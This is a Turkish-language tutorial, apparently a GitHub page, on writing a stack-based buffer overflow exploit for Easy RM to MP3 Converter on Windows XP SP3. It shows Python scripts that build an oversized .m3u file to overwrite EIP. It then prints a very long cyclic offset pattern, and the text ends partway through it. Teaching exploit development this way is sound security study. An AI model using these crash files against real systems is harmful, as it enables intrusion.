




# Exploit Writing Tutorial Part 1 : Stack Based Overflow

`OS` : Windows XP SP3

`Vulnerable App`: [EasyRMtoMP3Converter](https://web.archive.org/web/20100219221638/http://www.rm-to-mp3.net/)

`Debugger` : [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

`Video` : https://www.twitch.tv/videos/698087623

`Source` : https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/


# Fuzzing

Eğer ki zafiyetimizi anlatan yazıya veya örnek exploitlere bakacak olursak `.m3u` uzantılı bir dosyaya ihtiyacımız olacak. Bu dosyanın içerisine zafiyeti sömürmemize yarayacak exploitimizi yazacağız.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

# file path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write()
f.close()

```

Dosyamızı bu şekilde oluşturup içerisine değer yazabiliriz.

Bufferımızın kaç `byte`'dan sonra taştığını öğrenmek için rastgele bir sayıda karakter gönderelim.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

# file path
file = "EasyRMtoMP3Converter/exploit.m3u"
test = b"A"*30000
# File Create
f = open(file, "wb")
f.write(test)
f.close()
```

Kodumuzu çalıştırıp dosyamızı oluşturduktan sonra bunu sanal makinemize atalım (İsterseniz paylaşımlı klasör ile isterseniz sürükle bırak ile atabilirsiniz) . Daha sonra `Easy RM to MP3 Converter` isimli uygulamamızı `Immunity Debugger` ile açalım ve `run` (kısayolu F9) çalıştıralım. Uygulamamız açıldıktan sonra `exploit.m3u` isimli dosyayı programımızın içerisine sürükleyelim.



Gördüğümüz üzere `EIP` üzerine `41414141` değerini yazdık yani bize ayrılan buffer alanını taşırarak `EIP` registerına müdahale edebildik. Peki bu 30000 tane `A`'dan kaçıncısı `EIP` üzerine denk geliyor ?

Bunu bulmak için `pwntools` paketinden yararlanacağım. Siz dilerseniz metasploit kullanabilirsiniz



```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

test = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaakoaakpaakqaakraaksaaktaakuaakvaakwaakxaakyaakzaalbaalcaaldaaleaalfaalgaalhaaliaaljaalkaallaalmaalnaaloaalpaalqaalraalsaaltaaluaalvaalwaalxaalyaalzaambaamcaamdaameaamfaamgaamhaamiaamjaamkaamlaammaamnaamoaampaamqaamraamsaamtaamuaamvaamwaamxaamyaamzaanbaancaandaaneaanfaangaanhaaniaanjaankaanlaanmaannaanoaanpaanqaanraansaantaanuaanvaanwaanxaanyaanzaaobaaocaaodaaoeaaofaaogaaohaaoiaaojaaokaaolaaomaaonaaooaaopaaoqaaoraaosaaotaaouaaovaaowaaoxaaoyaaozaapbaapcaapdaapeaapfaapgaaphaapiaapjaapkaaplaapmaapnaapoaappaapqaapraapsaaptaapuaapvaapwaapxaapyaapzaaqbaaqcaaqdaaqeaaqfaaqgaaqhaaqiaaqjaaqkaaqlaaqmaaqnaaqoaaqpaaqqaaqraaqsaaqtaaquaaqvaaqwaaqxaaqyaaqzaarbaarcaardaareaarfaargaarhaariaarjaarkaarlaarmaarnaaroaarpaarqaarraarsaartaaruaarvaarwaarxaaryaarzaasbaascaasdaaseaasfaasgaashaasiaasjaaskaaslaasmaasnaasoaaspaasqaasraassaastaasuaasvaaswaasxaasyaaszaatbaatcaatdaateaatfaatgaathaatiaatjaatkaatlaatmaatnaatoaatpaatqaatraatsaattaatuaatvaatwaatxaatyaatzaaubaaucaaudaaueaaufaaugaauhaauiaaujaaukaaulaaumaaunaauoaaupaauqaauraausaautaauuaauvaauwaauxaauyaauzaavbaavcaavdaaveaavfaavgaavhaaviaavjaavkaavlaavmaavnaavoaavpaavqaavraavsaavtaavuaavvaavwaavxaavyaavzaawbaawcaawdaaweaawfaawgaawhaawiaawjaawkaawlaawmaawnaawoaawpaawqaawraawsaawtaawuaawvaawwaawxaawyaawzaaxbaaxcaaxdaaxeaaxfaaxgaaxhaaxiaaxjaaxkaaxlaaxmaaxnaaxoaaxpaaxqaaxraaxsaaxtaaxuaaxvaaxwaaxxaaxyaaxzaaybaaycaaydaayeaayfaaygaayhaayiaayjaaykaaylaaymaaynaayoaaypaayqaayraaysaaytaayuaayvaaywaayxaayyaayzaazbaazcaazdaazeaazfaazgaazhaaziaazjaazkaazlaazmaaznaazoaazpaazqaazraazsaaztaazuaazvaazwaazxaazyaazzababacabadabaeabafabagabahabaiabajabakabalabamabanabaoabapabaqabarabasabatabauabavabawabaxabayabazabbbabbcabbdabbeabbfabbgabbhabbiabbjabbkabblabbmabbnabboabbpabbqabbrabbsabbtabbuabbvabbwabbxabbyabbzabcbabccabcdabceabcfabcgabchabciabcjabckabclabcmabcnabcoabcpabcqabcrabcsabctabcuabcvabcwabcxabcyabczabdbabdcabddabdeabdfabdgabdhabdiabdjabdkabdlabdmabdnabdoabdpabdqabdrabdsabdtabduabdvabdwabdxabdyabdzabebabecabedabeeabefabegabehabeiabejabekabelabemabenabeoabepabeqaberabesabetabeuabevabewabexabeyabezabfbabfcabfdabfeabffabfgabfhabfiabfjabfkabflabfmabfnabfoabfpabfqabfrabfsabftabfuabfvabfwabfxabfyabfzabgbabgcabgdabgeabgfabggabghabgiabgjabgkabglabgmabgnabgoabgpabgqabgrabgsabgtabguabgvabgwabgxabgyabgzabhbabhcabhdabheabhfabhgabhhabhiabhjabhkabhlabhmabhnabhoabhpabhqabhrabhsabhtabhuabhvabhwabhxabhyabhzabibabicabidabieabifabigabihabiiabijabikabilabimabinabioabipabiqabirabisabitabiuabivabiwabixabiyabizabjbabjcabjdabjeabjfabjgabjhabjiabjjabjkabjlabjmabjnabjoabjpabjqabjrabjsabjtabjuabjvabjwabjxabjyabjzabkbabkcabkdabkeabkfabkgabkhabkiabkjabkkabklabkmabknabkoabkpabkqabkrabksabktabkuabkvabkwabkxabkyabkzablbablcabldableablfablgablhabliabljablkabllablmablnabloablpablqablrablsabltabluablvablwablxablyablzabmbabmcabmdabmeabmfabmgabmhabmiabmjabmkabmlabmmabmnabmoabmpabmqabmrabmsabmtabmuabmvabmwabmxabmyabmzabnbabncabndabneabnfabngabnhabniabnjabnkabnlabnmabnnabnoabnpabnqabnrabnsabntabnuabnvabnwabnxabnyabnzabobabocabodaboeabofabogabohaboiabojabokabolabomabonabooabopaboqaborabosabotabouabovabowaboxaboyabozabpbabpcabpdabpeabpfabpgabphabpiabpjabpkabplabpmabpnabpoabppabpqabprabpsabptabpuabpvabpwabpxabpyabpzabqbabqcabqdabqeabqfabqgabqhabqiabqjabqkabqlabqmabqnabqoabqpabqqabqrabqsabqtabquabqvabqwabqxabqyabqzabrbabrcabrdabreabrfabrgabrhabriabrjabrkabrlabrmabrnabroabrpabrqabrrabrsabrtabruabrvabrwabrxabryabrzabsbabscabsdabseabsfabsgabshabsiabsjabskabslabsmabsnabsoabspabsqabsrabssabstabsuabsvabswabsxabsyabszabtbabtcabtdabteabtfabtgabthabtiabtjabtkabtlabtmabtnabtoabtpabtqabtrabtsabttabtuabtvabtwabtxabtyabtzabubabucabudabueabufabugabuhabuiabujabukabulabumabunabuoabupabuqaburabusabutabuuabuvabuwabuxabuyabuzabvbabvcabvdabveabvfabvgabvhabviabvjabvkabvlabvmabvnabvoabvpabvqabvrabvsabvtabvuabvvabvwabvxabvyabvzabwbabwcabwdabweabwfabwgabwhabwiabwjabwkabwlabwmabwnabwoabwpabwqabwrabwsabwtabwuabwvabwwabwxabwyabwzabxbabxcabxdabxeabxfabxgabxhabxiabxjabxkabxlabxmabxnabxoabxpabxqabxrabxsabxtabxuabxvabxwabxxabxyabxzabybabycabydabyeabyfabygabyhabyiabyjabykabylabymabynabyoabypabyqabyrabysabytabyuabyvabywabyxabyyabyzabzbabzcabzdabzeabzfabzgabzhabziabzjabzkabzlabzmabznabzoabzpabzqabzrabzsabztabzuabzvabzwabzxabzyabzzacacadacaeacafacagacahacaiacajacakacalacamacanacaoacapacaqacaracasacatacauacavacawacaxacayacazacbbacbcacbdacbeacbfacbgacbhacbiacbjacbkacblacbmacbnacboacbpacbqacbracbsacbtacbuacbvacbwacbxacbyacbzaccbacccaccdacceaccfaccgacchacciaccjacckacclaccmaccnaccoaccpaccqaccraccsacctaccuaccvaccwaccxaccyacczacdbacdcacddacdeacdfacdgacdhacdiacdjacdkacdlacdmacdnacdoacdpacdqacdracdsacdtacduacdvacdwacdxacdyacdzacebacecacedaceeacefacegacehaceiacejacekacelacemacenaceoacepaceqaceracesacetaceuacevacewacexaceyacezacfbacfcacfdacfeacffacfgacfhacfiacfjacfkacflacfmacfnacfoacfpacfqacfracfsacftacfuacfvacfwacfxacfyacfzacgbacgcacgdacgeacgfacggacghacgiacgjacgkacglacgmacgnacgoacgpacgqacgracgsacgtacguacgvacgwacgxacgyacgzachbachcachdacheachfachgachhachiachjachkachlachmachnachoachpachqachrachsachtachuachvachwachxachyachzacibacicacidacieacifacigacihaciiacijacikacilacimacinacioacipaciqaciracisacitaciuacivaciwacixaciyacizacjbacjcacjdacjeacjfacjgacjhacjiacjjacjkacjlacjmacjnacjoacjpacjqacjracjsacjtacjuacjvacjwacjxacjyacjzackbackcackdackeackfackgackhackiackjackkacklackmacknackoackpackqackracksacktackuackvackwackxackyackzaclbaclcacldacleaclfaclgaclhacliacljaclkacllaclmaclnacloaclpaclqaclraclsacltacluaclvaclwaclxaclyaclzacmbacmcacmdacmeacmfacmgacmhacmiacmjacmkacmlacmmacmnacmoacmpacmqacmracmsacmtacmuacmvacmwacmxacmyacmzacnbacncacndacneacnfacngacnhacniacnjacnkacnlacnmacnnacnoacnpacnqacnracnsacntacnuacnvacnwacnxacnyacnzacobacocacodacoeacofacogacohacoiacojacokacolacomaconacooacopacoqacoracosacotacouacovacowacoxacoyacozacpbacpcacpdacpeacpfacpgacphacpiacpjacpkacplacpmacpnacpoacppacpqacpracpsacptacpuacpvacpwacpxacpyacpzacqbacqcacqdacqeacqfacqgacqhacqiacqjacqkacqlacqmacqnacqoacqpacqqacqracqsacqtacquacqvacqwacqxacqyacqzacrbacrcacrdacreacrfacrgacrhacriacrjacrkacrlacrmacrnacroacrpacrqacrracrsacrtacruacrvacrwacrxacryacrzacsbacscacsdacseacsfacsgacshacsiacsjacskacslacsmacsnacsoacspacsqacsracssacstacsuacsvacswacsxacsyacszactbactcactdacteactfactgacthactiactjactkactlactmactnactoactpactqactractsacttactuactvactwactxactyactzacubacucacudacueacufacugacuhacuiacujacukaculacumacunacuoacupacuqacuracusacutacuuacuvacuwacuxacuyacuzacvbacvcacvdacveacvfacvgacvhacviacvjacvkacvlacvmacvnacvoacvpacvqacvracvsacvtacvuacvvacvwacvxacvyacvzacwbacwcacwdacweacwfacwgacwhacwiacwjacwkacwlacwmacwnacwoacwpacwqacwracwsacwtacwuacwvacwwacwxacwyacwzacxbacxcacxdacxeacxfacxgacxhacxiacxjacxkacxlacxmacxnacxoacxpacxqacxracxsacxtacxuacxvacxwacxxacxyacxzacybacycacydacyeacyfacygacyhacyiacyjacykacylacymacynacyoacypacyqacyracysacytacyuacyvacywacyxacyyacyzaczbaczcaczdaczeaczfaczgaczhacziaczjaczkaczlaczmacznaczoaczpaczqaczraczsacztaczuaczvaczwaczxaczyaczzadadaeadafadagadahadaiadajadakadaladamadanadaoadapadaqadaradasadatadauadavadawadaxadayadazadbbadbcadbdadbeadbfadbgadbhadbiadbjadbkadbladbmadbnadboadbpadbqadbradbsadbtadbuadbvadbwadbxadbyadbzadcbadccadcdadceadcfadcgadchadciadcjadckadcladcmadcnadcoadcpadcqadcradcsadctadcuadcvadcwadcxadcyadczaddbaddcadddaddeaddfaddgaddhaddiaddjaddkaddladdmaddnaddoaddpaddqaddraddsaddtadduaddvaddwaddxaddyaddzadebadecadedadeeadefadegadehadeiadejadekadelademadenadeoadepadeqaderadesadetadeuadevadewadexadeyadezadfbadfcadfdadfeadffadfgadfhadfiadfjadfkadfladfmadfnadfoadfpadfqadfradfsadftadfuadfvadfwadfxadfyadfzadgbadgcadgdadgeadgfadggadghadgiadgjadgkadgladgmadgnadgoadgpadgqadgradgsadgtadguadgvadgwadgxadgyadgzadhbadhcadhdadheadhfadhgadhhadhiadhjadhkadhladhmadhnadhoadhpadhqadhradhsadhtadhuadhvadhwadhxadhyadhzadibadicadidadieadifadigadihadiiadijadikadiladimadinadioadipadiqadiradisaditadiuadivadiwadixadiyadizadjbadjcadjdadjeadjfadjgadjhadjiadjjadjkadjladjmadjnadjoadjpadjqadjradjsadjtadjuadjvadjwadjxadjyadjzadkbadkcadkdadkeadkfadkgadkhadkiadkjadkkadkladkmadknadkoadkpadkqadkradksadktadkuadkvadkwadkxadkyadkzadlbadlcadldadleadlfadlgadlhadliadljadlkadlladlmadlnadloadlpadlqadlradlsadltadluadlvadlwadlxadlyadlzadmbadmcadmdadmeadmfadmgadmhadmiadmjadmkadmladmmadmnadmoadmpadmqadmradmsadmtadmuadmvadmwadmxadmyadmzadnbadncadndadneadnfadngadnhadniadnjadnkadnladnmadnnadnoadnpadnqadnradnsadntadnuadnvadnwadnxadnyadnzadobadocadodadoeadofadogadohadoiadojadokadoladomadonadooadopadoqadoradosadotadouadovadowadoxadoyadozadpbadpcadpdadpeadpfadpgadphadpiadpjadpkadpladpmadpnadpoadppadpqadpradpsadptadpuadpvadpwadpxadpyadpzadqbadqcadqdadqeadqfadqgadqhadqiadqjadqkadqladqmadqnadqoadqpadqqadqradqsadqtadquadqvadqwadqxadqyadqzadrbadrcadrdadreadrfadrgadrhadriadrjadrkadrladrmadrnadroadrpadrqadrradrsadrtadruadrvadrwadrxadryadrzadsbadscadsdadseadsfadsgadshadsiadsjadskadsladsmadsnadsoadspadsqadsradssadstadsuadsvadswadsxadsyadszadtbadtcadtdadteadtfadtgadthadtiadtjadtkadtladtmadtnadtoadtpadtqadtradtsadttadtuadtvadtwadtxadtyadtzadubaducadudadueadufadugaduhaduiadujadukaduladumadunaduoadupaduqaduradusadutaduuaduvaduwaduxaduyaduzadvbadvcadvdadveadvfadvgadvhadviadvjadvkadvladvmadvnadvoadvpadvqadvradvsadvtadvuadvvadvwadvxadvyadvzadwbadwcadwdadweadwfadwgadwhadwiadwjadwkadwladwmadwnadwoadwpadwqadwradwsadwtadwuadwvadwwadwxadwyadwzadxbadxcadxdadxeadxfadxgadxhadxiadxjadxkadxladxmadxnadxoadxpadxqadxradxsadxtadxuadxvadxwadxxadxyadxzadybadycadydadyeadyfadygadyhadyiadyjadykadyladymadynadyoadypadyqadyradysadytadyuadyvadywadyxadyyadyzadzbadzcadzdadzeadzfadzgadzhadziadzjadzkadzladzmadznadzoadzpadzqadzradzsadztadzuadzvadzwadzxadzyadzzaeaeafaeagaeahaeaiaeajaeakaealaeamaeanaeaoaeapaeaqaearaeasaeataeauaeavaeawaeaxaeayaeazaebbaebcaebdaebeaebfaebgaebhaebiaebjaebkaeblaebmaebnaeboaebpaebqaebraebsaebtaebuaebvaebwaebxaebyaebzaecbaeccaecdaeceaecfaecgaechaeciaecjaeckaeclaecmaecnaecoaecpaecqaecraecsaectaecuaecvaecwaecxaecyaeczaedbaedcaeddaedeaedfaedgaedhaediaedjaedkaedlaedmaednaedoaedpaedqaedraedsaedtaeduaedvaedwaedxaedyaedzaeebaeecaeedaeeeaeefaeegaeehaeeiaeejaeekaeelaeemaeenaeeoaeepaeeqaeeraeesaeetaeeuaeevaeewaeexaeeyaeezaefbaefcaefdaefeaeffaefgaefhaefiaefjaefkaeflaefmaefnaefoaefpaefqaefraefsaeftaefuaefvaefwaefxaefyaefzaegbaegcaegdaegeaegfaeggaeghaegiaegjaegkaeglaegmaegnaegoaegpaegqaegraegsaegtaeguaegvaegwaegxaegyaegzaehbaehcaehdaeheaehfaehgaehhaehiaehjaehkaehlaehmaehnaehoaehpaehqaehraehsaehtaehuaehvaehwaehxaehyaehzaeibaeicaeidaeieaeifaeigaeihaeiiaeijaeikaeilaeimaeinaeioaeipaeiqaeiraeisaeitaeiuaeivaeiwaeixaeiyaeizaejbaejcaejdaejeaejfaejgaejhaejiaejjaejkaejlaejmaejnaejoaejpaejqaejraejsaejtaejuaejvaejwaejxaejyaejzaekbaekcaekdaekeaekfaekgaekhaekiaekjaekkaeklaekmaeknaekoaekpaekqaekraeksaektaekuaekvaekwaekxaekyaekzaelbaelcaeldaeleaelfaelgaelhaeliaeljaelkaellaelmaelnaeloaelpaelqaelraelsaeltaeluaelvaelwaelxaelyaelzaembaemcaemdaemeaemfaemgaemhaemiaemjaemkaemlaemmaemnaemoaempaemqaemraemsaemtaemuaemvaemwaemxaemyaemzaenbaencaendaeneaenfaengaenhaeniaenjaenkaenlaenmaennaenoaenpaenqaenraensaentaenuaenvaenwaenxaenyaenzaeobaeocaeodaeoeaeofaeogaeohaeoiaeojaeokaeolaeomaeonaeooaeopaeoqaeoraeosaeotaeouaeovaeowaeoxaeoyaeozaepbaepcaepdaepeaepfaepgaephaepiaepjaepkaeplaepmaepnaepoaeppaepqaepraepsaeptaepuaepvaepwaepxaepyaepzaeqbaeqcaeqdaeqeaeqfaeqgaeqhaeqiaeqjaeqkaeqlaeqmaeqnaeqoaeqpaeqqaeqraeqsaeqtaequaeqvaeqwaeqxaeqyaeqzaerbaercaerdaereaerfaergaerhaeriaerjaerkaerlaermaernaeroaerpaerqaerraersaertaeruaervaerwaerxaeryaerzaesbaescaesdaeseaesfaesgaeshaesiaesjaeskaeslaesmaesnaesoaespaesqaesraessaestaesuaesvaeswaesxaesyaeszaetbaetcaetdaeteaetfaetgaethaetiaetjaetkaetlaetmaetnaetoaetpaetqaetraetsaettaetuaetvaetwaetxaetyaetzaeubaeucaeudaeueaeufaeugaeuhaeuiaeujaeukaeulaeumaeunaeuoaeupaeuqaeuraeusaeutaeuuaeuvaeuwaeuxaeuyaeuzaevbaevcaevdaeveaevfaevgaevhaeviaevjaevkaevlaevmaevnaevoaevpaevqaevraevsaevtaevuaevvaevwaevxaevyaevzaewbaewcaewdaeweaewfaewgaewhaewiaewjaewkaewlaewmaewnaewoaewpaewqaewraewsaewtaewuaewvaewwaewxaewyaewzaexbaexcaexdaexeaexfaexgaexhaexiaexjaexkaexlaexmaexnaexoaexpaexqaexraexsaextaexuaexvaexwaexxaexyaexzaeybaeycaeydaeyeaeyfaeygaeyhaeyiaeyjaeykaeylaeymaeynaeyoaeypaeyqaeyraeysaeytaeyuaeyvaeywaeyxaeyyaeyzaezbaezcaezdaezeaezfaezgaezhaeziaezjaezkaezlaezmaeznaezoaezpaezqaezraezsaeztaezuaezvaezwaezxaezyaezzafafagafahafaiafajafakafalafamafanafaoafapafaqafarafasafatafauafavafawafaxafayafazafbbafbcafbdafbeafbfafbgafbhafbiafbjafbkafblafbmafbnafboafbpafbqafbrafbsafbtafbuafbvafbwafbxafbyafbzafcbafccafcdafceafcfafcgafchafciafcjafckafclafcmafcnafcoafcpafcqafcrafcsafctafcuafcvafcwafcxafcyafczafdbafdcafddafdeafdfafdgafdhafdiafdjafdkafdlafdmafdnafdoafdpafdqafdrafdsafdtafduafdvafdwafdxafdyafdzafebafecafedafeeafefafegafehafeiafejafekafelafemafenafeoafepafeqaferafesafetafeuafevafewafexafeyafezaffbaffcaffdaffeafffaffgaffhaffiaffjaffkafflaffmaffnaffoaffpaffqaffraffsafftaffuaffvaffwaffxaffyaffzafgbafgcafgdafgeafgfafggafghafgiafgjafgkafglafgmafgnafgoafgpafgqafgrafgsafgtafguafgvafgwafgxafgyafgzafhbafhcafhdafheafhfafhgafhhafhiafhjafhkafhlafhmafhnafhoafhpafhqafhrafhsafhtafhuafhvafhwafhxafhyafhzafibaficafidafieafifafigafihafiiafijafikafilafimafinafioafipafiqafirafisafitafiuafivafiwafixafiyafizafjbafjcafjdafjeafjfafjgafjhafjiafjjafjkafjlafjmafjnafjoafjpafjqafjrafjsafjtafjuafjvafjwafjxafjyafjzafkbafkcafkdafkeafkfafkgafkhafkiafkjafkkafklafkmafknafkoafkpafkqafkrafksafktafkuafkvafkwafkxafkyafkzaflbaflcafldafleaflfaflgaflhafliafljaflkafllaflmaflnafloaflpaflqaflraflsafltafluaflvaflwaflxaflyaflzafmbafmcafmdafmeafmfafmgafmhafmiafmjafmkafmlafmmafmnafmoafmpafmqafmrafmsafmtafmuafmvafmwafmxafmyafmzafnbafncafndafneafnfafngafnhafniafnjafnkafnlafnmafnnafnoafnpafnqafnrafnsafntafnuafnvafnwafnxafnyafnzafobafocafodafoeafofafogafohafoiafojafokafolafomafonafooafopafoqaforafosafotafouafovafowafoxafoyafozafpbafpcafpdafpeafpfafpgafphafpiafpjafpkafplafpmafpnafpoafppafpqafprafpsafptafpuafpvafpwafpxafpyafpzafqbafqcafqdafqeafqfafqgafqhafqiafqjafqkafqlafqmafqnafqoafqpafqqafqrafqsafqtafquafqvafqwafqxafqyafqzafrbafrcafrdafreafrfafrgafrhafriafrjafrkafrlafrmafrnafroafrpafrqafrrafrsafrtafruafrvafrwafrxafryafrzafsbafscafsdafseafsfafsgafshafsiafsjafskafslafsmafsnafsoafspafsqafsrafssafstafsuafsvafswafsxafsyafszaftbaftcaftdafteaftfaftgafthaftiaftjaftkaftlaftmaftnaftoaftpaftqaftraftsafttaftuaftvaftwaftxaftyaftzafubafucafudafueafufafugafuhafuiafujafukafulafumafunafuoafupafuqafurafusafutafuuafuvafuwafuxafuyafuzafvbafvcafvdafveafvfafvgafvhafviafvjafvkafvlafvmafvnafvoafvpafvqafvrafvsafvtafvuafvvafvwafvxafvyafvzafwbafwcafwdafweafwfafwgafwhafwiafwjafwkafwlafwmafwnafwoafwpafwqafwrafwsafwtafwuafwvafwwafwxafwyafwzafxbafxcafxdafxeafxfafxgafxhafxiafxjafxkafxlafxmafxnafxoafxpafxqafxrafxsafxtafxuafxvafxwafxxafxyafxzafybafycafydafyeafyfafygafyhafyiafyjafykafylafymafynafyoafypafyqafyrafysafytafyuafyvafywafyxafyyafyzafzbafzcafzdafzeafzfafzgafzhafziafzjafzkafzlafzmafznafzoafzpafzqafzrafzsafztafzuafzvafzwafzxafzyafzzagagahagaiagajagakagalagamaganagaoagapagaqagaragasagatagauagavagawagaxagayagazagbbagbcagbdagbeagbfagbgagbhagbiagbjagbkagblagbmagbnagboagbpagbqagbragbsagbtagbuagbvagbwagbxagbyagbzagcbagccagcdagceagcfagcgagchagciagcjagckagclagcmagcnagcoagcpagcqagcragcsagctagcuagcvagcwagcxagcyagczagdbagdcagddagdeagdfagdgagdhagdiagdjagdkagdlagdmagdnagdoagdpagdqagdragdsagdtagduagdvagdwagdxagdyagdzagebagecagedageeagefagegagehageiagejagekagelagemagenageoagepageqageragesagetageuagevagewagexageyagezagfbagfcagfdagfeagffagfgagfhagfiagfjagfkagflagfmagfnagfoagfpagfqagfragfsagftagfuagfvagfwagfxa